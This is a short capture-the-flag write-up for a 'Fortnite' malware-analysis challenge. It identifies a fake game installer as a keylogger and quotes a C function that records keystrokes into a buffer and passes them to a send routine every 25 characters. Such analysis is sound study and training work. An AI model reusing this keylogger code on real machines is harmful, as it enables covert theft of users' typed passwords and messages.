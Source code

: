 ```yaml
---
title: "Fortnite"
eventName: "Friendly CTF 2024"
category: "Malware Anlysis"
difficulty: "Medium"
points: 497
---
```


#  Fortnite

## Challenge Descritption

God dammit. Someone told me this is fortnite premium with unlimited Vbucks. I reversed it and ITS NOT FORTNITE. Flag format: Securinets{Malware_commentedFlag_ServerIp_ServerPort_bufferSize}

---

## Provided Files

fortnite_setup.exe (Can't upload a malware here!!)

[This_Isnt_fortnite.c](/assets/fortnite/This_Isnt_fortnite.c)

---

## TL;DR

**Malware Type:** Keylogger

This is a keylogger since it listens to low level keystrokes and sends them to a remote server for the attacker to access.
```c
void logk(int vkCode) {
    WCHAR keyName[2] = {0};
    BYTE keyboardState[256] = {0};
    GetKeyboardState(keyboardState);

    HKL layout = GetKeyboardLayout(0);
    int result = ToUnicode(vkCode, 0, keyboardState, keyName, 2, 0);

    if (result > 0) {
        buffer[count++] = keyName[0];
    } else {
        switch (vkCode) {
            case VK_SPACE: buffer[count++] = ' '; break;
            case VK_TAB: buffer[count++] = '\t'; break;
            case VK_RETURN: buffer[count++] = '\n'; break;
            case VK_BACK: buffer[count++] = '\b'; break;
            default: buffer[count++] = '?'; break;
        }
    }

    if (count == 25) {
        buffer[25] = '\0';
        sendlog();
        count = 0;
    }
}
```
